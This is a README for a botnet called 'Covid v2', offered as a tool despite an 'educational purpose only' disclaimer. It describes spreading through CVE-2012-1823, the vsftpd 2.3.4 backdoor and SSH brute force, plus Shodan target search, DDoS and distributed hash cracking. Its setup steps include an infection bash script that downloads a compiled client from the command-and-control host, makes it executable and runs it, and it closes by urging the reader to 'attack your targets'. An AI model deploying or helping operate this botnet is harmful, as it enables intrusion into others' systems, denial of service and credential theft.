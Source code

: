 # Covid v2 Botnet

***Disclamer: this botnet is for educational purpose only!***

**What can it do?**
- attack targets by a list
- attack targets on local network with a scanner
- spread through CVE-2012-1823 (php-cgi Argument Injection)
- spread through CVE-2011-2523 (vsftpd 2.3.4 backdoor)
- spread through SSH Brute Force
- search targets on shodan
- ddos spesific target (basic one with stop option)
- recognize a given hash and crack it using a word list
- save bots and targets lists into json file

![Botnet Help Command](gifs/1B477A4D-9C7F-4173-8911-4CBA80492C54.GIF)

**How to use?**

1. download the project

2. configure the cnc ip and cnc port on client.py and server.py

3. add shodan api token

4. configure the wordlist in client.py and configure the wordlist length in server.py

5. create an installation file to make the target get infected and configure it on server.py and client.py
for example:

use a python compiler to compile client.py,
then create a bash script that downloads the used wordlist, the compiled client and runs the client:
```
#!/bin/bash
cnc_ip="your cnc"
executable="created executable with python compiler"
wordlist="your configured wordlist location"
wget http://$cnc_ip/$executable
wget http://$cnc_ip/$wordlist
chmod 777 $executable
./$executable
```
configure the bash file name under executable in server.py and client.py

6. run the server.py and attack your targets!

**Attack example:**

the attack is used on 3 local ips:
 
- 192.168.10.16 - Vunerable to CVE-2012-1823

- 192.168.10.18 - Vunerable to SSH Brute Force

- 192.168.10.20 - Vunerable to CVE-2011-2523

![Botnet Attack Example](gifs/3B4C1644-0690-4EAF-AA87-D2BB0C56800E.GIF)

**Hash cracking example**

the cracking is used on 3 infected bots and tries to crack md5 hash of "admin"

![Botnet Crack Hash Example](gifs/2518F02C-C205-4B92-A478-F97B7573475E.GIF)
